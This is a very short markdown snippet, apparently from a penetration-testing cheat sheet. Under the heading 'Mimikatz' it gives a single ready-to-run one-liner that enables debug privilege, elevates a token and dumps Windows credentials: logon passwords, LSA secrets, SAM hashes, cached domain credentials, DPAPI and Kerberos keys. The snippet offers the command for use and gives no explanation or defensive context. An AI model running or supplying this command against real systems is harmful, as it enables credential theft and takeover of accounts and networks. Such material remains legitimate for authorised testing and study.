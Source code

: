 # Mimikatz


## Oneline

```
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

